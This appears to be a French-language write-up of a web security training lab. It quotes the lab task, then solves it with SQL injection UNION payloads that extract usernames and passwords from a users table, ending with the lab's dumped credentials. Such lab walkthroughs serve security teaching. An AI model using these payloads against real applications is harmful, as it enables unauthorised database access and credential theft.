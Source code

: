           DESCRIPTION
------------------------------------------------------------------------------------------------------

This lab contains an SQL injection vulnerability in the product category filter.
The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords,
and use the information to log in as the administrator user.

------------------------------------------------------------------------------------------------------

Gardons les informations suivantes :
table = users
colonnes = username, password

Même méthodologie que pour les précédents labs, on retrouve le nombre de colonnes et leur compatibilité avec une string avec le payload :
'UNION SELECT NULL,NULL....--

2 colonnes sont disponibles.

```
'UNION SELECT 'a',NULL--
'UNION SELECT NULL,'a'--
```

Seule la seconde colonne est compatible avec les strings.

Nous disposons donc des informations suivantes :

table = users
2 colonnes : username, password
Compatbile avec string : 2nd colonne

Tentons maintenant de concatener les valeurs contenues dans username et password à partir de la deuxième colonne :

```
'UNION SELECT NULL,username || '=' || password FROM users--
```

La page retourne les deux colones séparées par un "=", contenant le mot de passe de l'administrateur :

High-End Gift Wrapping
Snow Delivered To Your Door
wiener=jm9krrxittguzkp66szm
administrator=*******************
Conversation Controlling Lemon
Couple's Umbrella
carlos=j94kb278agl7qmn4l1bw